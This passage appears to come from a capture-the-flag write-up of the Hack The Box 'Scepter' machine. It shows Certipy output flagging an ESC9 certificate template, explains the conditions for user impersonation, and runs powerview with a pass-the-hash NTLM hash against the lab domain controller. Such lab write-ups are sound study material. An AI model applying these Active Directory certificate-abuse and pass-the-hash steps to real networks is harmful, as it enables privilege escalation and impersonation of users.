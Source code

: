 ```bash
                                          SCEPTER.HTB\Local System
                                          SCEPTER.HTB\Enterprise Admins
        Write Dacl Principals           : SCEPTER.HTB\Domain Admins
                                          SCEPTER.HTB\Local System
                                          SCEPTER.HTB\Enterprise Admins
    [+] User Enrollable Principals      : SCEPTER.HTB\staff
    [!] Vulnerabilities
      ESC9                              : Template has no security extension.
    [*] Remarks
      ESC9                              : Other prerequisites may be required for this to be exploitable. See the wiki for more details.

```

Okey its **ESC9** but its not like common ones.

[https://github.com/ly4k/Certipy/wiki/06-‐-Privilege-Escalation#esc9-no-security-extension-on-certificate-template](https://github.com/ly4k/Certipy/wiki/06-%E2%80%90-Privilege-Escalation#esc9-no-security-extension-on-certificate-template)

![alt text](../assets/images/scepter7.png)

We’ve identified a certificate template that is vulnerable to **ESC9**. This vulnerability allows user impersonation if two conditions are met:

1. The template’s `msPKI-Enrollment-Flag` includes the flag `CT_FLAG_NO_SECURITY_EXTENSION`.
2. The **StrongCertificateBindingEnforcement** setting on the CA is less than `2`.

When both are true, the certificate issued can be used to impersonate another user.

Lets use powerview and understand everything more clearly

```bash
powerview scepter.htb/d.baker@DC01.scepter.htb -H :18b5fb0d99e7a475316213c15b6f22ce --dc-ip 10.10.11.65 --use-ldap -d
╭─LDAP─[dc01.scepter.htb]─[SCEPTER\d.baker]-[NS:<auto>]
╰─PV ❯ Get-DomainCATemplate -Identity StaffAccessCertificate -Select msPKI-Enrollment-Flag,msPKI-Certificate-Name-Flag
msPKI-Certificate-Name-Flag     : SubjectAltRequireEmail|SubjectRequireDnsAsCn|SubjectRequireEmail
msPKI-Enrollment-Flag           : AutoEnrollment|NoSecurityExtension
```
